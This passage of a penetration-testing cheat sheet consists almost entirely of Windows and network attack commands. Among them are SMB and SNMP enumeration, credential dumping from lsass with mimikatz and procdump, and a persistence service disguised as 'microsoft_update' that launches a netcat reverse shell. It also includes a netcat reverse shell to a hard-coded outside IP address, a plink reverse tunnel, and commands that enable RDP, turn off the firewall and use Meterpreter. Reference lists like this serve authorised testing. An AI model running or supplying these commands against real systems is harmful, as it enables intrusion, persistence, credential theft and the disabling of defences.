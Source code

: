 `rpcclient -U “” target`

`enum4linux target`

## SNMP ENumeration:
`snmpget -v 1 -c public IP version`

`snmpwalk -v 1 -c public IP`

`snmpbulkwalk -v 2 -c public IP`

## Windows Useful commands:
`net localgroup Users`

`net localgroup Administrators`

`search dir/s *.doc`

`system(“start cmd.exe /k $cmd”)`

`sc create microsoft_update binpath=”cmd /K start c:\nc.exe -d ip-of-hacker port -e cmd.exe” start= auto error= ignore`

`/c C:\nc.exe -e c:\windows\system32\cmd.exe -vv 23.92.17.103 7779`

`mimikatz.exe “privilege::debug” “log” “sekurlsa::logonpasswords”`

`Procdump.exe -accepteula -ma lsass.exe lsass.dmp`

`mimikatz.exe “sekurlsa::minidump lsass.dmp” “log” “sekurlsa::logonpasswords”`

`C:\temp\procdump.exe -accepteula -ma lsass.exe lsass.dmp For 32 bits`

`C:\temp\procdump.exe -accepteula -64 -ma lsass.exe lsass.dmp For 64 bits`


## Plink Tunnel:
`plink.exe -P 22 -l root -pw “1234” -R 445:127.0.0.1:445 X.X.X.X`

## Enable RDP Access:
`reg add “hklm\system\currentcontrolset\control\terminal server” /f /v fDenyTSConnections /t REG_DWORD /d 0`

`netsh firewall set service remoteadmin enable`

`netsh firewall set service remotedesktop enable`

## Turn Off Firewall:
`netsh firewall set opmode disable`

## Meterpreter:
`run getgui -u admin -p 1234`

`run vnc -p 5043`
